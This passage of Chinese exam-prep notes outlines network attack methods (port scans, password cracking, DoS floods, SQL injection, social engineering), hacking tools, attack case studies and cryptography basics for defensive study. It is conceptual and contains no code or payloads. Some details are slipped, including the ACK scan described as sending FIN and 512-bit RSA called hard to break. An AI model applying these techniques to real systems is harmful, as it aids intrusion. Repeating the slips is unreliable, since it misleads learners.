| --- | --- |
| 初始 | 主机 A：`CLOSED`（主动打开）；主机 B：`CLOSED`（被动打开） |
| 第一次握手 | 主机 A 发送 **`seq = x, SYN = 1`**，进入 **`SYN-SENT`（同步已发送）** |
| 第二次握手 | 主机 B 回应 **`SYN = 1, ACK = 1, seq = y, ack = x+1`**，进入 **`SYN-RCVD`（同步收到）** |
| 第三次握手 | 主机 A 发送 **`Seq = x+1, ack = y+1, ACK = 1`**，双方进入 **`ESTABLISHED`（已建立连接）** |

```mermaid
sequenceDiagram
    participant A as 主机A
    participant B as 主机B
    Note over A,B: CLOSED / 被动打开 CLOSED
    A->>B: seq=x, SYN=1（进入 SYN-SENT）
    B->>A: seq=y, ack=x+1, SYN=1, ACK=1（进入 SYN-RCVD）
    A->>B: Seq=x+1, ack=y+1, ACK=1（ESTABLISHED）
```

###### 🧭 方法 1：端口扫描

**目的**：逐个尝试与 **TCP/UDP 端口**连接，然后根据**端口与服务的对应关系**，结合服务器的反馈，推断目标系统上是否运行了某项服务。

| 端口扫描类型 | 内容 |
| --- | --- |
| **完全连接扫描** | 利用 **TCP/IP 协议的三次握手**连接机制，使源主机和目的主机的某个端口建立**一次完整的连接**。如果建立成功，则表明该端口**开放**；否则，表明该端口**关闭** |
| **半连接扫描 / SYN 扫描** | 源主机和目的主机的三次握手连接过程中，**只完成前两次握手**，不建立一次完整的连接 |
| **ID 头信息扫描** | 需要用一台**第三方机器**配置扫描，并且这台机器的**网络通信量要非常少**，即 **dumb 主机** |
| **隐蔽扫描** | 是指能够成功地**绕过 IDS、防火墙和监视系统**等安全机制，取得目标主机端口信息的一种扫描方式 |
| **SYN\|ACK 扫描** | 由源主机向目标主机的某个端口**直接发送 SYN/ACK 数据包**，而不是先发送 SYN 数据包。由于这种方法不发送 SYN 数据包，目标主机会认为这是**一次错误的连接**，从而会报错。如果目标主机的该端口**没有开放**，会返回 **RST** 信息；如果该端口**开放（LISTENING）**，则**不会返回任何信息**，而是直接将这个数据包抛弃掉 |
| **FIN 扫描** | 源主机 A 向目标主机 B 发送 **FIN** 数据包，然后查看反馈消息。如果端口返回 **RESET** 信息，则说明该端口**关闭**；如果端口**没有返回任何消息**，则说明端口**开放** |
| **ACK 扫描** | 首先由主机 A 向目标主机 B 发送 FIN 数据包，然后查看反馈数据包的 **TTL 值**和 **WIN 值**：**开放端口**所返回的数据包的 TTL 值一般 **< 64**，而**关闭端口**的返回值一般 **> 64**；**开放端口**所返回的 WIN 值一般 **> 0**，而**关闭端口**的返回值一般 **= 0** |
| **NULL 扫描** | 将源主机发送的数据包中的 **ACK、FIN、RST、SYN、URG、PSH** 等标志位**全部置空**。如果目标主机**没有返回任何信息**，则表明该端口是**开放**的；如果返回 **RST** 信息，则表明该端口是**关闭**的 |
| **XMAS 扫描** | 原理和 NULL 扫描相同，将要发送的数据包中的 **ACK、FIN、RST、SYN、URG、PSH** 等标志位**全部置 1**。如果目标主机**没有返回任何信息**，则表明该端口是**开放**的；如果返回 **RST** 信息，则表明该端口是**关闭**的 |

> [!IMPORTANT]
> 端口扫描开放 / 关闭判定口诀：
> - **完全连接 / 半连接（SYN）**：能握手 = 开放
> - **FIN / NULL / XMAS**：**无响应 = 开放，RST = 关闭**
> - **ACK**：TTL **< 64** 且 WIN **> 0** = 开放；TTL **> 64** 且 WIN **= 0** = 关闭
> - **SYN\|ACK**：**无响应 = 开放（LISTENING），RST = 关闭**

> [!WARNING]
> 易错：NULL 扫描是标志位**全置空（0）**，XMAS 扫描是标志位**全置 1**，二者判定结果**一致**，只是构造方式相反。

###### 🧭 ID 头扫描（dumb 主机）流程

| 步骤 | 内容 |
| --- | --- |
| ① | 首先由源主机 A 向 **dumb 主机 B** 发出连续的 **PING 数据包**，并且**查看主机 B 返回的数据包的 ID 头信息**。一般而言，每个顺序数据包的 **ID 头的值会加 1** |
| ② | 然后由源主机 A **假冒主机 B 的地址**，向目的主机 C 的**任意端口（1-65535）**发送 **SYN** 数据包 |
| ③ | 如果主机 C 端口是**关闭**的，那么 B 返回 A 的数据包中 **ID 头的值递增 1**，非常规律 |
| ④ | 如果主机 C 端口是**开放**的，那么 B 返回 A 的数据包中 **ID 头的值不是递增 1，而是大于 1** |

```mermaid
sequenceDiagram
    participant A as 源主机A
    participant B as dumb主机B
    participant C as 目的主机C
    A->>B: 连续 PING 数据包（观察 ID 头，通常 +1）
    A->>C: 假冒 B 的地址发送 SYN 到任意端口(1-65535)
    C->>B: 响应（影响 B 的 IP ID 计数）
    B->>A: 返回数据包
    Note over A: 端口关闭：ID 递增 1<br/>端口开放：ID 递增 >1
```

###### 🧭 方法 2：口令破解

网络攻击者常以破解用户的**弱口令**作为突破口，获取系统的访问权限。主要流程：

1. ① **建立**与目标网络服务的**网络连接**；
2. ② **选取**一个**用户列表文件**及**字典文件**；
3. ③ 在用户列表文件及字典文件中，**选取一组用户和口令**，按网络服务协议规定，将**用户名及口令**发送给目标网络服务端口；
4. ④ **检测远程服务返回信息**，确定口令尝试是否成功；
5. ⑤ 再取另一组用户和口令，**重复循环试验**，直至口令用户列表文件及字典文件选取完毕。

```mermaid
graph TD
    A["① 建立与目标网络服务的网络连接"] --> B["② 选取用户列表文件及字典文件"]
    B --> C["③ 选取一组用户和口令并按协议发送"]
    C --> D["④ 检测远程服务返回信息，判断是否成功"]
    D --> E{"是否成功?"}
    E -- 是 --> F["获取系统访问权限"]
    E -- 否 --> G["⑤ 取另一组，重复循环"]
    G --> C
```

###### 🧭 方法 3：缓冲区溢出攻击

| 项目 | 要点 |
| --- | --- |
| 定义 | 缓冲区溢出攻击是一种通过往程序的**缓冲区写超出其长度的内容**，造成**缓冲区溢出**，从而破坏程序的**堆栈**，使程序转而执行**其他预设指令**，以达到攻击目的的攻击方法 |
| 原理 | 向缓冲区中写入**超长的、预设的内容**，导致缓冲区溢出，**覆盖其他正常的程序或数据**，然后让计算机转去运行这行预设的程序，达到**执行非法操作、实现攻击**的目的 |
| 图示 | 原书图 2-1：函数调用时为某局部变量分配空间 / 堆栈布局示意图 |

```mermaid
graph LR
    A["超长输入数据"] --> B["写入程序缓冲区"]
    B --> C["缓冲区溢出"]
    C --> D["覆盖相邻的正常程序/数据（返回地址）"]
    D --> E["程序跳转执行预设指令"]
    E --> F["执行非法操作 / 获取权限"]
```

###### 🧭 方法 4：恶意代码

| 项目 | 要点 |
| --- | --- |
| 定义 | 恶意代码是指为达到**恶意目的**而专门设计的**程序或代码**，指一切旨在破坏计算机或者网络系统**可靠性、可用性、安全性和数据完整性**或者**损耗系统资源**的恶意程序 |
| 常见类型 | **计算机病毒、网络蠕虫、特洛伊木马、后门、逻辑炸弹、僵尸网络**等 |
| 网络蠕虫特点 | 具有**复制传播功能**；代表：**红色代码、震网** |

###### 🧭 方法 5：拒绝服务攻击 DoS / DDoS

**拒绝服务攻击 DoS（Denial of Service）原理**：攻击者**恶意消耗系统资源**（**CPU、内存、硬盘、网络带宽**），导致目标系统**不能为正常用户提供服务**。

| 典型 DoS 攻击 | 内容 |
| --- | --- |
| **SYN Flood** | 利用 **TCP 协议缺陷**发送大量**伪造的 TCP 连接请求**，使得被攻击者资源耗尽。三次握手**只进行了两次**，不进行第三次握手，连接队列处于**等待状态**，大量这样的等待，会**占满全部队列空间**，使得系统挂起 |
| **UDP Flood**（OCR 缺失标题） | 消耗完目标主机端的**网络带宽** |
| **Smurf 攻击**（OCR 缺失标题） | 攻击者**伪装目标主机**向局域网的**广播地址**发送大量欺骗性的 **ICMP 请求**，这些包被**放大**，并发送到被欺骗的地址，大量的计算机向一台计算机回应 **ECHO 包**，目标系统会崩溃 |
| **邮件炸弹** | 攻击者通过**邮件炸弹程序**给受害者发送垃圾信息，**耗尽用户信箱的磁盘空间** |
| **CPU / 内存耗尽型 DoS** | 利用目标系统的**计算算法漏洞**，构造恶意输入数据集，导致目标系统的 **CPU 或内存资源耗尽**，从而使目标系统瘫痪，如 **Hash DoS** |
| **Ping of Death 攻击** | 攻击者故意发送**大于 65535 字节的 IP 数据包**给对方，导致**内存溢出**，这时主机会出现内存分配错误而导致 **TCP/IP 堆栈崩溃**，导致死机 |
| **Teardrop 泪滴攻击** | **分段攻击**，伪造数据报文向目标主机发送含有**重叠偏移**的数据分段，通过将各个分段重叠来使目标系统**崩溃或挂起** |
| **DDoS 分布式拒绝服务攻击** | 攻击者从多个已入侵的**跳板主机**控制数个**代理攻击主机**，所以攻击者可同时对已控制的代理攻击主机激活干扰命令，对受害主机大量攻击 |
| **WinNuke 攻击** | 针对 **Windows 139 端口**，只要向该端口发送 **1 字节的 TCP OOB 数据**（TCP 连接的一种特殊数据，设置了 **URG** 标志，优先级更高），就可以使 Windows 系统出现**蓝屏错误**，并且网络功能**完全瘫痪** |
| **Land 攻击** | 利用三次握手的缺陷进行攻击，将 **SYN 数据包的源地址和目的地址都设置为目标主机的地址**，目标主机向自己回应 **SYN+ACK** 包，导致自己又给自己回一个 **ACK** 并建立**自己与自己**的连接，当这种无效连接达到一定数量，目标主机将会**拒绝新的连接请求** |

```mermaid
graph TD
    D["拒绝服务攻击 DoS/DDoS"] --> A["SYN Flood：伪造 TCP 半连接耗尽队列"]
    D --> B["UDP Flood：耗尽网络带宽"]
    D --> C["Smurf：伪造源地址 + ICMP 广播 + 放大"]
    D --> E["邮件炸弹：耗尽信箱磁盘空间"]
    D --> F["CPU/内存耗尽型：Hash DoS"]
    D --> G["Ping of Death：>65535 字节 IP 包致内存溢出"]
    D --> H["Teardrop：重叠偏移分段致崩溃"]
    D --> I["WinNuke：139 端口 1 字节 TCP OOB（URG）致蓝屏"]
    D --> J["Land：源地址=目的地址，自连接"]
    D --> K["DDoS：跳板主机 + 代理攻击主机"]
```

> [!IMPORTANT]
> 必背数字：
> - **Ping of Death**：IP 包 **> 65535 字节**
> - **WinNuke**：**139 端口**，**1 字节** TCP OOB（**URG** 标志）
> - **Land 攻击**：源 IP = 目的 IP = 目标主机
> - **SYN Flood**：只完成**前两次**握手

###### 🧭 方法 6：网络钓鱼

| 项目 | 要点 |
| --- | --- |
| 定义 | 网络钓鱼（**Phishing**，与 **fishing** 发音相近得名）是一种通过**假冒可信方**（知名银行、在线零售商和信用卡公司等可信的品牌）提供网上服务，以欺骗手段获取**敏感个人信息**（如**口令、信用卡详细信息**等）的攻击方式 |
| 手段 | 网络钓鱼者利用**欺骗性的电子邮件**和**伪造的网站**来进行诈骗活动，诱骗访问者提供一些个人信息 |

###### 🧭 方法 7：网络窃听

| 项目 | 要点 |
| --- | --- |
| 定义 | 是指利用**网络通信技术缺陷**，使得攻击者能够获取到其他人的**网络通信信息** |
| 常见手段 | **网络嗅探、中间人攻击** |
| 手法 | 网络攻击者将主机网络接口的方式设成「**杂乱**」（混杂）模式，就可以接收**整个网络上的信息包**，从而可以获取敏感口令，甚至可以将其重组，还原为用户传递的文件 |

###### 🧭 方法 8：SQL 注入攻击

| 项目 | 要点 |
| --- | --- |
| 场景 | 在 Web 服务中，一般采用**三层架构模式**：**浏览器 + Web 服务器 + 数据库**。其中，**Web 脚本程序**负责处理来自浏览器端提交的数据 |
| 成因 | 由于 **Web 脚本程序的编程漏洞**，对来自浏览器端的信息**缺少输入安全合法性检查** |
| 手法 | 网络攻击者利用这个漏洞，把 **SQL 命令**插入 **Web 表单的输入域**或**页面的请求查询字符串**，欺骗服务器执行恶意的 SQL 命令 |

```mermaid
graph LR
    A["浏览器"] --> B["Web 服务器（Web 脚本程序）"]
    B --> C["数据库"]
    X["攻击者在输入域/查询字符串插入 SQL 命令"] --> B
    B --> Y["缺少输入合法性检查 → 执行恶意 SQL"]
```

###### 🧭 方法 9：社交工程

| 项目 | 要点 |
| --- | --- |
| 定义 | 网络攻击者通过一系列的**社交活动**，获取需要的信息 |
| 举例 | ① **伪造系统管理员的身份**，给特定的用户发电子邮件**骗取**他的密码口令；② 有的攻击者会给用户送**免费实用程序**，不过该程序除了完成用户所需的功能外，还隐藏了一个**将用户的计算机信息上传送给攻击者**的功能 |

> [!WARNING]
> 易错：社交工程攻击**不是技术漏洞利用**，而是利用**人的心理弱点 / 信任**。

###### 🧭 方法 10：电子监听

网络攻击者采用**电子设备远距离地监视电磁波的传送过程**。**灵敏的无线电接收装置**能够在远处看到计算机操作者**输入的字符**或**屏幕显示的内容**。

###### 🧭 方法 11：会话劫持

是指攻击者在**初始授权之后建立一个连接**，在会话劫持以后，攻击者**具有合法用户的特权权限**。如「**TCP 会话劫持**」。

###### 🧭 方法 12：漏洞扫描

| 项目 | 要点 |
| --- | --- |
| 定义 | 是一种**自动检测远程或本地主机安全漏洞**的软件，通过漏洞扫描器可以**自动发现**系统的安全漏洞 |
| 常见漏洞扫描技术 | **CGI 漏洞扫描、弱口令扫描、操作系统漏洞扫描、数据库漏洞扫描**等 |

###### 🧭 方法 13：代理技术

| 项目 | 要点 |
| --- | --- |
| 目的 | 网络攻击者通过**免费代理服务器**进行攻击，其目的是以代理服务器为「**攻击跳板**」，即使攻击目标的网络管理员发现了，也难以**追踪**到网络攻击者的真实身份或 IP 地址 |
| 加强手段 | 为了增加追踪的难度，网络攻击者还会用**多级代理服务器**或者「**跳板主机**」来攻击目标 |
| 术语 | 代理服务器被叫做「**肉鸡**」，黑客常利用所控制的机器进行攻击活动，如 **DDoS** 攻击 |

###### 🧭 方法 14：数据加密（攻击者的自我保护）

网络攻击者**经常采用数据加密技术**来**逃避网络安全管理人员**的追踪。加密使网络攻击者的数据得到有效保护，即使网络安全管理人员得到这些加密的数据，**没有密钥也无法读懂**，这样就实现了攻击者的**自身保护**。

> [!IMPORTANT]
> 攻击者的安全原则：**任何与攻击有关的内容都必须加密或者立刻销毁。**

---

##### 2.3 黑客常用工具分析

###### 🧭 工具分类（一）

| 工具分类 | 功能 | 工具举例 |
| --- | --- | --- |
| **扫描器** | 通过扫描程序，黑客可以找到攻击目标的 **IP 地址、开放的端口号、服务器运行的版本、程序中可能存在的漏洞**等。根据不同的扫描目的，扫描类软件又分为**地址扫描器、端口扫描器、漏洞扫描器**三个类别 | **Nmap、Nessus、SuperScan** |
| **远程监控** | 黑客的电脑中运行管理软件，**受害机器受控于黑客的管理端**；受害机器通常被称为「**肉鸡**」，其经常被用于发起 **DDoS** 拒绝服务攻击或作为**攻击跳板** | **冰河、网络精灵、Netcat** |
| **密码破解** | ① **字典攻击**（针对用户的弱口令）；② **穷举 / 暴力枚举搜索**（针对用户密码的选择空间，使用高性能计算机，逐个尝试可能的密码）；③ **撞库**（根据已经收集到的用户密码的信息进行碰撞，以获取用户的密码） | **John the Ripper**：用于检查 **Unix/Linux** 系统的弱口令，支持几乎所有 Unix 平台上经 **crypt** 函数加密后的口令哈希类型；**OphCrack**：破解 **Windows** 密码（基于彩虹表） |

###### 🧭 工具分类（二）

| 工具分类 | 功能 | 工具举例 |
| --- | --- | --- |
| **网络嗅探** | 网络嗅控，黑客可以通过它捕获网络上的数据包，然后对未加密的信息包进行破解，进而分析数据，获得有关敏感的信息 | **Tcpdump**：基于**命令行**的网络数据包分析软件，可以作为网络嗅探工具，能把匹配规则的数据包内容显示出来；**Wireshark**：提供**图形化**的网络数据包分析功能，可视化地展示网络数据包的内容；**DSniff**：可以获取**口令、邮件、文件**等信息 |
| **安全渗透工具箱** | 网络攻击一体化服务 | **Metasploit**：是一个**开源渗透测试工具**，提供**漏洞查找、漏洞利用、漏洞验证**等服务功能，支持 **1500 多个漏洞**的利用，支持 **OWASP TOP 10** 漏洞测试；**BackTrack5**：集成了大量的安全工具软件，支持**信息收集、漏洞评估、漏洞利用、特权提升、保持访问、逆向工程、压力测试** |

> [!IMPORTANT]
> 必背工具对照：
> - 扫描：**Nmap / Nessus / SuperScan**（地址扫描器、端口扫描器、漏洞扫描器三类）
> - 远程监控（肉鸡）：**冰河、网络精灵、Netcat**
> - 口令破解：**John the Ripper**（Unix/Linux，crypt 哈希）、**OphCrack**（Windows，彩虹表）
> - 嗅探：**Tcpdump**（命令行）、**Wireshark**（图形化）、**DSniff**（口令/邮件/文件）
> - 渗透平台：**Metasploit**（1500+ 漏洞、OWASP TOP 10）、**BackTrack5**

---

##### 2.4 网络攻击案例分析

###### 🧭 案例（一）DDoS 攻击

**DDoS 攻击**：分布式拒绝服务攻击，整个攻击过程可以分为下面**五个步骤**：

1. ① 通过**探测扫描大量主机**，寻找可以进行攻击的目标；
2. ② 攻击**有安全漏洞的主机**，并设法**获取控制权**；
3. ③ 在已攻击成功的主机中**安装客户端攻击程序**；
4. ④ 利用已攻击成功的主机**继续进行扫描和攻击**；
5. ⑤ 当攻击客户端**达到一定的数目**后，攻击者在**主控端给客户端攻击程序发布攻击命令**。

```mermaid
graph TD
    A["① 探测扫描大量主机"] --> B["② 攻击有漏洞主机并获取控制权"]
    B --> C["③ 安装客户端攻击程序"]
    C --> D["④ 继续扫描和攻击（滚雪球）"]
    D --> E["⑤ 主控端向大量客户端发布攻击命令"]
    E --> F["目标系统瘫痪"]
```

**DDoS 常用的攻击技术手段**：

| 手段 | 说明 |
| --- | --- |
| **HTTP Flood 攻击** | 利用**僵尸主机**向特定目标网站发送**大量的 HTTP GET 请求**，以导致网站瘫痪 |
| **SYN Flood 攻击** | 利用 **TCP/IP 协议的安全缺陷**，伪造主机发送**大量的 SYN 包**到目标系统，导致目标系统的计算机网络瘫痪 |
| **DNS 放大攻击** | 攻击者**假冒目标系统**向**多个 DNS 解析服务器**发送大量请求，而导致 DNS 解析服务器**同时应答目标系统**，产生**大量网络流量**，形成拒绝服务（图 2-6） |

```mermaid
graph LR
    subgraph 僵尸网络
        B1["Bot"]
        B2["Bot"]
        B3["Bot"]
    end
    B1 --> T["受害目标系统"]
    B2 --> T
    B3 --> T
    A2["攻击者"] --> B1
    A2 --> B2
    A2 --> B3
```

```mermaid
graph LR
    AT["攻击者（假冒目标系统）"] --> R1["DNS Resolver"]
    AT --> R2["DNS Resolver"]
    AT --> R3["DNS Resolver"]
    R1 --> V["目标系统（被放大流量淹没）"]
    R2 --> V
    R3 --> V
```

###### 🧭 案例（二）W32.Blaster.Worm

| 项目 | 要点 |
| --- | --- |
| 性质 | **W32.Blaster.Worm** 是一种利用 **DCOM RPC 漏洞**进行传播的**网络蠕虫** |
| 传播能力 | 传播能力很强 |
| 危害 | 感染蠕虫的计算机系统**运行不稳定，系统会不断重启**；并且该蠕虫还将对 **windowsupdate.com** 进行**拒绝服务攻击**，使得受害用户**不能及时地得到这个漏洞的补丁** |

**攻击流程（图 2-7）：**

1. ① 扫描，发起 **RPC 漏洞利用攻击**；
2. ② 远程下载初始化；
3. ③ 通过 **UDP**；
4. ④ 通过 **TFTP 下载蠕虫代码**；
5. ⑤ **远程执行蠕虫代码**，执行「Command」代码。

```mermaid
graph LR
    H["主机（已感染 W32.Blaster.Worm）"] -->|"1. 扫描，发起 RPC 漏洞利用攻击"| V["受害主机"]
    V -->|"2. 远程下载初始化（UDP）"| V
    V -->|"3. 通过 TFTP 下载蠕虫代码"| V
    V -->|"4. 远程执行蠕虫代码 执行 Command"| V
```

> [!IMPORTANT]
> W32.Blaster.Worm 关键点：**DCOM RPC 漏洞** + **TFTP 下载** + 攻击 **windowsupdate.com**。

###### 🧭 案例（三）网络安全导致停电事件（乌克兰电力攻击事件）

| 步骤 | 内容 |
| --- | --- |
| ① | 黑客首先利用**钓鱼邮件**，欺骗电力公司员工**下载了带有 BlackEnergy 的恶意代码文件** |
| ② | 然后**诱导用户打开这个文件，激活木马** |
| ③ | 安装 **SSH 后门**和系统自毁工具 **KillDisk**，致使黑客最终**获得了主控电脑的控制权** |
| ④ | 最后，黑客**远程操作恶意代码**将电力公司的**主控计算机与变电站断连并切断电源** |
| ⑤ | 同时，黑客发送 **DDoS 攻击电力客服中心**，致使电厂工作人员**无法立即进行电力维修工作** |

事件结果：**乌克兰伊万诺-弗兰科夫斯克地区大面积停电**。

```mermaid
graph TD
    A["① 钓鱼邮件 → 员工下载含 BlackEnergy 的恶意文件"] --> B["② 诱导打开文件，激活木马"]
    B --> C["③ 安装 SSH 后门 + KillDisk 自毁工具，取得主控电脑控制权"]
    C --> D["④ 远程操作：主控计算机与变电站断连并切断电源"]
    C --> E["⑤ DDoS 攻击电力客服中心，阻碍抢修"]
    D --> F["乌克兰伊万诺-弗兰科夫斯克地区大面积停电"]
    E --> F
```

> [!IMPORTANT]
> 乌克兰停电事件关键词：**BlackEnergy**、**SSH 后门**、**KillDisk**、**DDoS 客服中心**、**伊万诺-弗兰科夫斯克**。

###### 🧭 APT 攻击

**APT 攻击（Advanced Persistent Threat，高级持续性威胁）**：

| 字母 | 含义 | 说明 |
| --- | --- | --- |
| **A**（Advanced） | **技术高级** | 攻击者掌握先进的攻击技术，使用**多种攻击途径**，包括购买或自己开发的 **0Day 漏洞**；而且，攻击过程复杂，攻击持续过程中攻击者能够**动态调整攻击方式**，从整体上控制攻击过程 |
| **P**（Persistent） | **持续时间长** | 与传统黑客进行网络攻击的目的不同，实施 APT 攻击的黑客组织通常具有**明确的攻击目标和目的**，通过**长期不断的信息搜集、信息监控、渗透入侵**实施攻击步骤，攻击成功后一般还会**继续留在网络中**，等待时机执行进行后续攻击 |
| **T**（Threat） | **威胁性大** | APT 攻击通常拥有**雄厚的资金支持**，由**经验丰富的黑客团队**发起，一般以破坏**国家或是大型企业的关键基础设施**为目标，**窃取内部核心机密信息**，危害国家安全和社会稳定 |

**APT 防御思路**：通过**安全沙箱、安全大数据和态势感知**等平台，**联动全网安全设备**，进行**统一分析**，及时检测和预防 APT 攻击。

> [!IMPORTANT]
> APT 防御的核心体现：**综合分析，多设备联动**，不要单纯说某个安全设备。

###### 🧭 APT 攻击案例：海莲花组织

| 项目 | 要点 |
| --- | --- |
| 组织性质 | **海莲花**是一个**海外黑客组织** |
| 攻击目标 | 主要攻击中国**海事机构、海域建设部门、科研院所和航运企业**等单位 |
| 攻击手段（投递） | 主要通过**鱼叉邮件**投递内含恶意代码的 **Word 文件、快捷方式文件、SFX 自解压文件、捆绑后的文档图标的可执行文件** |
| 入侵后动作 | 入侵成功后通过一些**内网渗透工具**扫描渗透内网并**横向移动**，入侵重要服务器，植入 **Denis 家族木马**进行**持久化控制** |
| 最终目标 | 通过**横向移动和渗透**拿到**域控**或者**重要的服务器权限** |

**配套选择题（第 51 页）**：以上描述的是 **(7)**，这类攻击的特点是 **(8)**，解决思路 **(9)**。

> [!NOTE]
> 原稿给出的选项仅残存「(3) 选项 A.…B.…C.…D. APT」，推测 (7) 答案为 **APT 攻击**。完整选项 OCR 丢失。

---

#### 第 3 章 密码学基本理论

本章目录：密码学基础 → 对称加密算法 → 非对称加密算法 RSA → Hash 算法 → 数字签名 → PKI 与数字证书 → 密钥管理与安全协议 → 密码学网络安全应用。

##### 3.1 密码学基础

###### 🧭 密码学概念与法律

密码学主要由**密码编码**和**密码分析**两个部分组成。

| 组成 | 定义 |
| --- | --- |
| **密码编码学** | 研究信息的**变换处理**以实现信息的**安全保护** |
| **密码分析学** | 则研究通过**密文获取对应的明文信息** |

**相关法律**：《中华人民共和国密码法》于 **2020 年 1 月 1 日**起实施；**2005 年 4 月 1 日**起国家施行《中华人民共和国电子签名法》。

**密码学相关概念：**

| 概念 | 定义 |
| --- | --- |
| **明文** | 需要采用密码技术进行保护的**消息** |
| **密文** | 用密码技术处理过明文的结果，通常称为**加密消息** |
| **加密** | 将**明文变换成密文**的过程 |
| **解密** | 由**密文恢复出原明文**的过程 |
| **加密算法** | 加密过程所使用的一组**操作运算规则** |
| **解密算法** | 解密过程所使用的一组**操作运算规则** |
| **密钥** | 加密和解密算法的操作通常都是在**密钥控制**下进行的，分别称为**加密密钥**和**解密密钥** |

```mermaid
graph LR
    P["明文 M"] -->|"加密算法 + 加密密钥 Ke"| C["密文 C"]
    C -->|"解密算法 + 解密密钥 Kd"| P2["明文 M"]
```

###### 🧭 密码安全分析（5 类攻击）

| 攻击类型 | 解释 | 特点 |
| --- | --- | --- |
| **(1) 唯密文攻击** | 密码分析者**只拥有一个或多个用同一个密钥加密的密文**，没有其他可利用的信息 | **只有密文**，最难，密码分析者知道得最少 |
| **(2) 已知明文攻击** | 密码分析者根据**已经知道的某些明文-密文对**来破译密码 | 已知某些**密文对应的明文**；一个密码仅当它能**经得起已知明文攻击**时才是可取的 |
| **(3) 选择明文攻击** | 指密码分析者能够**选择明文并获得相应的密文** | 对密码分析者**十分有利**，适用于攻击**计算机文件系统和数据库系统** |
| **(4)（标题 OCR 缺失）** | 密码分析者对于**任何选定的密文**，能够得到该密文「**是否合法**」的判断 | 疑为**选择密文攻击**（见文末疑点） |
| **(5)（标题 OCR 缺失）** | 指密码分析者能够**选择密文并获得相应的明文**。这也是对密码分析者**十分有利**的情况 | 主要攻击**公开密钥密码体制**，特别是攻击**数字签名** |

> [!IMPORTANT]
> 攻击强度由弱到强（对分析者越来越有利）：**唯密文攻击 < 已知明文攻击 < 选择明文攻击 < 选择密文攻击**。
> 一个密码**能经得起已知明文攻击**才可取。

###### 🧭 密码体制分类总览

密码体制分为**私钥（对称）**和**公钥（非对称）**密码体制两种，而介于私钥和公钥之间的密码体制称为**混合密码体制**。

```mermaid
graph TD
    A["密码体制"] --> B["私钥密码体制（对称）"]
    A --> C["公钥密码体制（非对称）"]
    A --> D["混合密码体制"]
    B --> B1["DES / 3DES / AES / RC4、RC5 / IDEA"]
    C --> C1["RSA / ElGamal / ECC / 背包 / Rabin / DH"]
    D --> D1["对称加密消息 + 公钥加密对称密钥（数字信封）"]
```

###### 🧭 私钥密码体制 / 对称密码体制

| 项目 | 要点 |
| --- | --- |
| 定义 | 私钥密码体制又称**对称密码体制**，该体制的特点是**加密和解密使用相同的密钥**。消息的收发双方必须**事先通过安全渠道交换密钥** |
| **优点** | **加解密速度快**、**密文紧凑**、**使用长密钥时难破解** |
| **缺点** | **密钥分配问题**、**密钥管理问题**、**无法认证源** |
| 常见算法 | **DES、3DES、AES、RC4/5、IDEA** |

```mermaid
graph LR
    M["明文"] -->|"相同密钥 K 加密"| C["密文"]
    C -->|"相同密钥 K 解密"| M2["明文"]
    K["安全渠道交换密钥 K"] -.-> M
```

###### 🧭 公钥密码体制 / 非对称密码体制

| 项目 | 要点 |
| --- | --- |
| 定义 | 公钥密码体制又称为**非对称加密体制**，它的特点是**对数据加密和解密的密钥是不同的** |
| **优点** | **密钥分发方便**、**密钥保管量少**、**支持数字签名** |
| **缺点** | **加密速度慢**（计算量大，**不适合加密大数据**）、**数据膨胀率高** |
| 密钥构成 | 每个实体有**两个密钥**；**公钥公开，私钥自己保存** |
| **保密通信** | **公钥加密，私钥解密**，可实现**保密通信** |
| **数字签名** | **私钥加密，公钥解密**，可实现**数字签名** |
| 常见算法 | **RSA**：**512 位（或 1024 位）**密钥，计算量极大，难破解；**ElGamal、ECC（椭圆曲线算法）、背包算法、Rabin、DH** 等 |

> [!IMPORTANT]
> 非对称加密的两个方向务必分清：
> - **公钥加密 → 私钥解密 = 保密通信（机密性）**
> - **私钥加密 → 公钥解密 = 数字签名（认证/不可否认）**

###### 🧭 混合密码体制

| 项目 | 要点 |
| --- | --- |
| 发送方 | 发送方用**对称密钥**加密需要发送的**大量消息**，再用**接收方的公钥**加密**对称密钥**，然后一起发送给接收方 |
| 接收方 | 接收方先用**自己的私钥解密得到对称密钥**，然后用**对称密钥解密**得到明文 |
| 名称 | 用接收方公钥加密对称密钥的部分称为**数字信封** |

```mermaid
sequenceDiagram
    participant A as 消息发送者 Alice
    participant B as 消息接收者 Bob
    A->>A: 用对称密钥加密大消息
    A->>A: 用 Bob 的公钥加密对称密钥（数字信封）
    A->>B: 发送密文 + 数字信封
    B->>B: 用 Bob 私钥解密 → 得到对称密钥
    B->>B: 用对称密钥解密 → 得到明文
```

> [!TIP]
> 混合密码体制 = **对称加密快（加密数据）+ 非对称加密便于分发（加密密钥）**，兼顾二者优点。

###### 🧭 公钥密码分类（安全性基础）

目前公认的比较安全的**公钥密码**有两类：

| 困难问题 | 代表算法 |
| --- | --- |
| 基于**大素数因子分解**困难性 | **RSA** |
| 基于**离散对数问题**困难性 | **DH、ElGamal、ECC（椭圆曲线密码）** |

---

##### 3.2 对称加密算法

###### 🧭 对称加密算法总结

| 算法 | 解释 | 特点 |
| --- | --- | --- |
| **DES** | **Data Encryption Standard**，数据加密标准，**分组加密算法**，采用**移位 + 替换** | **分组长度 64 位**，**密钥长度 64 位**，**有效密钥长度是 56 位**；速度快，密钥易产生 |
| **3DES** | 三重 DES（**TDEA**），使用 DES 对明文进行「**加密-解密-加密**」操作。加密：**K1 加密 → K2 解密 → K3 加密**；解密：**K3 解密 → K2 加密 → K1 解密**。一般，**K1 和 K3 是相同的密钥** | **密钥长度 112 位**（两个密钥的情况） |
| **IDEA** | **International Data Encryption Algorithm**，国际数据加密算法，**分组加密算法**。设计思想：**混合使用来自不同代数群中的运算** | **明文和密文分组都是 64 位**，**密钥长度为 128 位**，用于 **PGP** |
| **AES** | **Advanced Encryption Standard**，高级加密标准。可以通过**硬件实现**，速度快，像 3DES 一样安全 | **分组长度 128 位**，支持 **128、192 和 256 位**三种密钥长度 |
| **RC4** | **Ron's Code / Rivest Cipher**，用于 **WIFI**。加密速度快，可达到 **DES 的 10 倍** | **分组和密钥长度都可变** |

> [!IMPORTANT]
> 必背参数表：
> - **DES**：分组 **64 位**，密钥 **64 位（有效 56 位）**
> - **3DES**：有效密钥 **112 位**（两密钥）/ **168 位**（三密钥）
> - **IDEA**：分组 **64 位**，密钥 **128 位**，用于 **PGP**
> - **AES**：分组 **128 位**，密钥 **128 / 192 / 256 位**
> - **RC4**：流密码，长度可变，用于 **WIFI**，速度约为 **DES 的 10 倍**

> [!WARNING]
> 易错：DES 的**密钥长度 64 位** ≠ **有效密钥长度 56 位**（8 位为奇偶校验位）。

